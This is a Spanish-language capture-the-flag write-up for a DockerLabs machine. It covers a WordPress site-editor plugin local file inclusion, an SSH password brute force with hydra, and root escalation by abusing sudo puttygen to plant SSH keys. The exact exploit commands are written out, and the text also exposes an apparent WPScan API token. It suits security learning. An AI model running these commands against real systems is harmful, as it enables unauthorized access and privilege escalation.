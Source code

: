 Deplegamos maquina de dockerlabs con

`sudo ./auto_deploy.sh injection.tar`

hacemos un brarido con **nmap** para lista los puertos abiertios usando 

`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![[Pasted image 20240812171247.png]]

Ok lugo de hacer el barido de puertos obsevamos que la maquina tiene abiertos el puerto **22, 80** puertos comunes que ya conecemos. Analisando cada puerto obesrvamos que puerto 22 **SSH** con una version de **OpenSSH  9.2p1** no tan actual pero de igunamente no nos permite usar exploits para enuemar usaurios como lo es el  **Username Enumeration**. y finalmente  el puerto 80 **http** en el cual vemos en que tien un titulo llamdo  **Asucar Moreno**  en su sitio web ya que es un **APACHE  2.4.52** y Alago muy importante es un sitio creado con tecnologia **Worpress 6.5.3** Algo que nos llama la antecion de imdiato ya que podemos usar hermaintas como WPSacn para sacanear este sition pero primero vamos a web y veamo que encontramos.

![[Pasted image 20240812171757.png]]

investigando un poco vemos que la web se ve  un poco estraña y que tiene un pagina de prueba llamado hello world damo click y observamos que aplica virtual  hosting asi que ya sabemos que hacer implemnete en la ruta **/etc/host** y la **asucar.dl**  se pude hacer de muchas maneras pero hoy voy a usar los siguetes comandos
1. abrimos con sudo el /etc/host con `sudo nano /etc/host` 
2. luego introducimos las lineas
	* `172.17.0.2   asucar.dl` 
	* damos `CTRL+X` damos `YES`  y `Enter` para guardar los cambios
3. finalmente recargamos la paguinas.
![[Pasted image 20240812172824.png]]

vemos que la paguina ha cambiado. ok lugo de todo esto  y no haber encontrado cosinanada lanzamos la heramienta WPScan y analizamonos los resultados.

`wpscan --url http://asucar.dl -e vp,u --api-token='AskAj1yEFAsVmrbhwaEj97f3aXs1GBpjg7L5oyfIUNs'`

![[Pasted image 20240812174230.png]]
![[Pasted image 20240812174305.png]]

vemos dos resulatado interesante el primero es una vulnerabilidad de pluguin site-editor ya que no se encurntra actualizada  y hay un posibles **Local File Inclution** y por otra pate tenenemos el usuario **wordpress** inetnetamos iniciara sesion con el pero no logramos nada asi que explotariomos la vilnerablidad del *LFI*.

principalmente vamos *searchsploit* ya busquemos a ver que nos dice
![[Pasted image 20240812174722.png]]
vemos dos resulatados  el primero deun drupla peno no nos interesas y el que estamos bucando el  LFI  de wordpress  asi que con el  `searchsplit -m 'name expolit'` y lo pasamos a ruta actaual donde estamos trabajando los cambiere el nombre a *LFIsite-editor*

![[Pasted image 20240812175231.png]]

ok vemos que nos dice esta vualneriblidad. Segun la decripcion que tenemos sobre el LFI en resumen en parmatro *ajax_path* un parametro del extencion **/extensions/pagebuilder/includes/ajax_shortcode_pattern.php** nos permite listar achivos de la maquina. mas abajo encontramos un *Proof* un prubea de consepto donde nodicen que ejecutemos el comando 
`/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`
 podemos usar el buscador o curl en su mayor defecto aquie usaremos curl 

`curl -s -X Get 'http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd' | grep -viE "nologin|{" | awk -F':' '{print $1}'`

![[Pasted image 20240812182937.png]]

comos vemos unasno expresiones regurlare podemos ver que usario con tenemos en el sistemas vemos *root* y otro muy ineteresante *curiosito* sabiendo que exite este usario lo siguiente por hacer es aplicar hydar para ver si tenene un contraseña vualnerable con el comando  

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4`

![[Pasted image 20240812183713.png]]

bingo tenosmos el usuarion **curiosito** y la constraseña **password1** asi que inicsmaos por SSH 

`ssh curiosito@172.17.0.2`

![[Pasted image 20240812183911.png]]


Bien contienuemos con la escalda de privilijios como ya sabemos lo primero que veremos es que como podemo ejecutar con sudo asi que aplicamo `sudo -l`  y vemos.

![[Pasted image 20240814124752.png]]

super como vemos  puttygen  los podemos ejecutar como sudo asi que este un aplicatavo de putty por el cual uno puede generar id_rsa para conecctarse por ssh asi que lo aremos.

`/usr/bin/puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id`
`/usr/bin/puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys`
`sudo /usr/bin/puttygen /home/curiosito/.ssh/id -o /root/.ssh/id`
`sudo /usr/bin/puttygen /home/curiosito/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh`

esta serie de comondo lo que nos ayuda es a crear un id_rsa para el usurio root  que luego nos copiaremos a nustro usuario con los siguinetes comandos

`scp curiosito@172.17.0.2:/home/curiosito/.ssh/id .`

este conado lo usamos para pasar la id_rsa que usaremos  recuerden usar `chmod 600 id` para cambiar los permisos y no tener conflictos.

final mente ejecutamos SSH

`ssh -i id root@172.17.0.2`

![[Pasted image 20240814131154.png]]


y ya somos root.


`by juandas13`
